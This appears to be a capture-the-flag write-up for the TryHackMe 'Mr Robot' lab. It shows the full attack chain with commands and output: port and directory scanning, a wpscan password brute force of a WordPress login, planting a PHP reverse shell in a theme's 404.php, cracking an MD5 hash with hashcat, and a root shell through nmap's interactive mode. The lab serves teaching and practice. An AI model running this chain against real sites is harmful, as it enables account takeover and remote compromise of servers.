

# Mr Robot

Link to the room: https://tryhackme.com/room/mrrobot

## Let's start !!

First, we set an IP variable

````````
export IP=10.10.202.108
````````

## Rustscan 

I used rustscan because I like its style and it instantly gives a response after discovering an open port. The drawback is that we cannot scan it for UDP.

````````
rustscan $IP -- -A -sC -sV -oN nmap.txt
````````

````````
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.202.108:80
Open 10.10.202.108:443
[~] Starting Nmap
[>] The Nmap command to be run is nmap -A -sC -sV -oN nmap.txt -vvv -p 80,443 10.10.202.108

Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-20 21:59 IST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:59
Completed NSE at 21:59, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:59
Completed NSE at 21:59, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:59
Completed NSE at 21:59, 0.00s elapsed
Initiating Ping Scan at 21:59
Scanning 10.10.202.108 [4 ports]
Completed Ping Scan at 21:59, 0.28s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:59
Completed Parallel DNS resolution of 1 host. at 21:59, 0.02s elapsed
DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 21:59
Scanning 10.10.202.108 [2 ports]
Discovered open port 80/tcp on 10.10.202.108
Discovered open port 443/tcp on 10.10.202.108
Completed SYN Stealth Scan at 21:59, 0.27s elapsed (2 total ports)
Initiating Service scan at 21:59
Scanning 2 services on 10.10.202.108
Completed Service scan at 21:59, 13.75s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.202.108
Retrying OS detection (try #2) against 10.10.202.108
Initiating Traceroute at 21:59
Completed Traceroute at 21:59, 0.26s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 21:59
Completed Parallel DNS resolution of 2 hosts. at 21:59, 0.05s elapsed
DNS resolution of 2 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.202.108.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:59
Completed NSE at 22:00, 11.21s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 1.99s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 0.00s elapsed
Nmap scan report for 10.10.202.108
Host is up, received echo-reply ttl 63 (0.24s latency).
Scanned at 2022-05-20 21:59:34 IST for 33s

PORT    STATE SERVICE  REASON         VERSION
80/tcp  open  http     syn-ack ttl 63 Apache httpd
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Apache
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
| SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----
|_http-server-header: Apache
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 3.13 (92%), Linux 5.4 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Android 4.1.1 (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=5/20%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6287C20F%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=Z%II=I%TS=8)
OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%TG=40%W=6903%O=M505NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.001 days (since Fri May 20 21:58:47 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   241.73 ms 10.8.0.1
2   242.24 ms 10.10.202.108

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.94 seconds
           Raw packets sent: 84 (7.284KB) | Rcvd: 40 (2.688KB)

````````

## Gobuster (80)

````````
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,js,html  | tee gobuster.log

````````

````````
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.202.108/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,zip,js,html
[+] Timeout:                 10s
===============================================================
2022/05/20 22:05:22 Starting gobuster in directory enumeration mode
===============================================================
/robots.txt           (Status: 301) [Size: 12] 
/images               (Status: 301) [Size: 236] [--> http://10.10.202.108/images/]
/index.html           (Status: 200) [Size: 1188]                                  
/index.php            (Status: 301) [Size: 0] [--> http://10.10.202.108/]         
/blog                 (Status: 301) [Size: 234] [--> http://10.10.202.108/blog/]  
/sitemap              (Status: 200) [Size: 0]                                     
/rss                  (Status: 301) [Size: 0] [--> http://10.10.202.108/feed/]    
/login                (Status: 302) [Size: 0] [--> http://10.10.202.108/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.202.108/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://10.10.202.108/feed/]

````````

## Apache webserver (robots.txt)

I checked all of them including robots.txt and found that robots.txt has some interesting things.


So we have 2 files here key-1-of-3.txt, fsocity.dic.



yes!! This is our first flag. 


!!this is a wordlist !! let’s enumerate more on the webserver.....

## Apache webserver (/login)


so it’s a WordPress login page. I have tried all default login cred but failed. It’s time we do some OSINT.


here we found the name elliot. let’s try this.....


so elloit username is right… now lets Bruteforce its password......

## wpscan

````````
wpscan --url http://10.10.202.108/wp-login.php -U elliot -P fsocity.dic

````````	


````````
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.202.108/wp-login.php/ [10.10.202.108]
[+] Started: Fri May 20 22:25:53 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Powered-By: PHP/5.5.29
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://10.10.202.108/wp-login.php/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] This site seems to be a multisite
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: http://codex.wordpress.org/Glossary#Multisite

[+] The external WP-Cron seems to be enabled: http://10.10.202.108/wp-login.php/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Query Parameter In Install Page (Aggressive Detection)
 |  - http://10.10.202.108/wp-includes/css/buttons.min.css?ver=4.3.1
 |  - http://10.10.202.108/wp-includes/css/dashicons.min.css?ver=4.3.1
 | Confirmed By: Query Parameter In Upgrade Page (Aggressive Detection)
 |  - http://10.10.202.108/wp-includes/css/buttons.min.css?ver=4.3.1
 |  - http://10.10.202.108/wp-includes/css/dashicons.min.css?ver=4.3.1

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:07 <===================================================================================            > (83201 / 88909 ) 89.26% Time: 00:00:07

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - elliot / {REDACTED}                                                                                                                                               
Trying elliot / psychedelic Time: 00:00:20 <========================================================        > (88420 / 488902) 89.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: elliot, Password: {REDACTED}

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri May 20 22:26:24 2022
[+] Requests Done: 339
[+] Cached Requests: 185
[+] Data Sent: 110.661 KB
[+] Data Received: 858.715 KB
[+] Memory used: 221.25 MB
[+] Elapsed time: 00:00:30

````````

## apache webserver wordpress login 


so we have successfully login. Now we going to get a reverse shell with a PHP reverse shell.......


first, we go to 404.php then we copy our PHP-reverse-shell and past it here. remember to change its IP to yours. then hit on upload.

-Reference:-https://pentestmonkey.net/tools/web-shells/php-reverse-shell

so we have successfully uploaded the reverse shell on 404.php. now we set up our listener. I am using pwncat for this..... 


now let’s execute it and get a reverse shell.....


execute like this:-

```c

http://{IP}/wp-content/themes/twentyfifteen/404.php

```
## Getting 2 key 

````````
[22:46:01] Welcome to pwncat 🐈!                                                                                                                              __main__.py:164
[22:46:02] received connection from 10.10.202.108:55888                                                                                                            bind.py:84
[22:46:05] 0.0.0.0:1234: normalizing shell path                                                                                                                manager.py:957
[22:46:06] 0.0.0.0:1234: upgrading from /bin/dash to /bin/bash                                                                                                 manager.py:957
[22:46:08] 10.10.202.108:55888: registered new host w/ db                                                                                                      manager.py:957
(local) pwncat$                                                                                                                                                              
(remote) daemon@linux:/$ ls
bin  boot  dev	etc  home  initrd.img  lib  lib64  lost+found  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var	vmlinuz
(remote) daemon@linux:/$ cd /home/robot/
(remote) daemon@linux:/home/robot$ ls  
key-2-of-3.txt	password.raw-md5
(remote) daemon@linux:/home/robot$ cat password.raw-md5 
robot:{REDACTED}
(remote) daemon@linux:/home/robot$

````````

### Name-That-Hash

````````
nth --text '{REDIRECTED}' 

````````

````````
  _   _                           _____ _           _          _   _           _     
 | \ | |                         |_   _| |         | |        | | | |         | |    
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__  
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \ 
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 
    

{REDACTED}

Most Likely 
MD5, HC: 0 JtR: raw-md5 Summary: Used for Linux Shadow files.
MD4, HC: 900 JtR: raw-md4
NTLM, HC: 1000 JtR: nt Summary: Often used in Windows Active Directory.
Domain Cached Credentials, HC: 1100 JtR: mscach

Least Likely
Domain Cached Credentials 2, HC: 2100 JtR: mscach2 Double MD5, HC: 2600  LM, HC: 3000 JtR: lm RIPEMD-128, JtR: ripemd-128 Haval-128, JtR: haval-128-4 Haval-128 (3 rounds), 
JtR: dynamic_160 Haval-128 (5 rounds), JtR: dynamic_180 Tiger-128,  Skein-256(128),  Skein-512(128),  Lotus Notes/Domino 5, HC: 8600 JtR: lotus5 Skype, HC: 23  ZipMonster,  
PrestaShop, HC: 11000  md5(md5(md5($pass))), HC: 3500  md5(uppercase(md5($pass))), HC: 4300  md5(sha1($pass)), HC: 4400  md5($pass.$salt), HC: 10  md5($salt.$pass), HC: 20  
md5(unicode($pass).$salt), HC: 30  md5($salt.unicode($pass)), HC: 40  HMAC-MD5 (key = $pass), HC: 50 JtR: hmac-md5 HMAC-MD5 (key = $salt), HC: 60 JtR: hmac-md5 
md5(md5($salt).$pass), HC: 3610  md5($salt.md5($pass)), HC: 3710  md5($pass.md5($salt)), HC: 3720  md5($salt.$pass.$salt), HC: 3810  md5(md5($pass).md5($salt)), HC: 3910  
md5($salt.md5($salt.$pass)), HC: 4010  md5($salt.md5($pass.$salt)), HC: 4110  md5($username.0.$pass), HC: 4210  md5(utf16($pass)), JtR: dynamic_29 md4($salt.$pass), JtR: 
dynamic_31 md4($pass.$salt), JtR: dynamic_32 md4(utf16($pass)), JtR: dynamic_33 md5(md4($pass)), JtR: dynamic_34 net-md5, JtR: dynamic_39 md5($salt.pad16($pass)), JtR: 
dynamic_39 MD2, JtR: md2 Snefru-128, JtR: snefru-128 DNSSEC(NSEC3), HC: 8300  RAdmin v2.x, HC: 9900 JtR: radmin Cisco Type 7,  BigCrypt, JtR: bigcrypt PKZIP Master Key, HC: 
20500  

````````

### Hashcat 

````````
hashcat -m 0 {REDACTED} /usr/share/wordlists/rockyou.txt --force
````````

````````
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 5 3500 6-Core Processor, 2904/5873 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

{REDACTED}:{REDACTED}
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: {REDACTED}
Time.Started.....: Fri May 20 23:20:10 2022, (0 secs)
Time.Estimated...: Fri May 20 23:20:10 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1592.1 kH/s (0.11ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: treetree -> loserface1
Hardware.Mon.#1..: Util: 25%

Started: Fri May 20 23:19:50 2022
Stopped: Fri May 20 23:20:12 2022

````````


### Login as robot

````````
(remote) daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
{REDACTED}
robot@linux:~$ 

````````

## Privilage esculation

````````
(remote) robot@linux:/tmp$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
\[\](remote)\[\] \[\]root@linux\[\]:\[\]/tmp\[\]$ whoami
root
\[\](remote)\[\] \[\]root@linux\[\]:\[\]/tmp\[\]$ cd /root
\[\](remote)\[\] \[\]root@linux\[\]:\[\]/root\[\]$ ls
firstboot_done	key-3-of-3.txt
\[\](remote)\[\] \[\]root@linux\[\]:\[\]/root\[\]$ cat key-3-of-3.txt
{REDACTED}
\[\](remote)\[\] \[\]root@linux\[\]:\[\]/root\[\]$ 

````````
-DONE
